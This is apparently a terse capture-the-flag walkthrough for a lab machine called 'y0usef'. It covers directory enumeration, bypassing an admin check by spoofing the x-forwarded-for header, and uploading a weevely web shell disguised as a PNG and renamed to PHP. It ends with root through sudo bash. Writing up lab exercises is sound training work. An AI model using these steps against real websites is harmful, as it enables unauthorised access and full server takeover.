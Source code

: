 ## y0usef
```
ExportIP:  192 168.200.187
```


#### Enumeration

- wordlist : https://github.com/danielmiessler/SecLists
```
/administration
```


#### Bypass
- Setup
  -  `x-forwarded-for: localhost`


#### File Upload
- /administration/upload

#### weevely Reverse Shell
- Generate Web Shell
  - weevely generate 1234 newShell.png


#### Proxy
```
1. newShell.png -> newShell.php

2. weevely */administration/upload/file/{FILE}
```

#### USER & ROOT
- Read : `user.txt` && base64 -d
- Root : sudo /bin/bash

